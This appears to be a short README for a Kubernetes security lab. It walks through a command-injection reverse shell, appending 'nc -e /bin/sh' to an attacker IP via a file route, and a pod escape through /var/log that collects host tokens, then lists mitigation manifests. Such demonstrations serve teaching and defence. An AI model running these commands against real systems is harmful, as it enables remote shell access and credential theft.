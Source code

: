 # Reverse Shell

1 - On you host run the following command in a terminal
```bash
nc -lvp 4242
```

2 - Pass a reverse shell command after a semicolon in the `GET /file/:filename` route, to execute these commands on the server:


```bash
nc -e /bin/sh 172.17.0.1 4242
# 172.17.0.1 being my IP address with k3d
```

3 - And tadaaa 🎉! You have a Reverse Shell on you host!


# Pod Escape through /var/log

> [!NOTE]
> Credits goes to [danielsagi](https://github.com/danielsagi/kube-pod-escape) for the exploit and the script

1 - On you host run the following command in a terminal
```bash
cat << 'EOF' > /get_host_files.py
<paste the contents of the python script>
EOF

python3 /get_host_files.py
```

And now every tokens are in the `host` directory !!!

# Mitigation 

```
kubectl apply -f manifests/kyverno
kubectl apply -f manifests/consul
```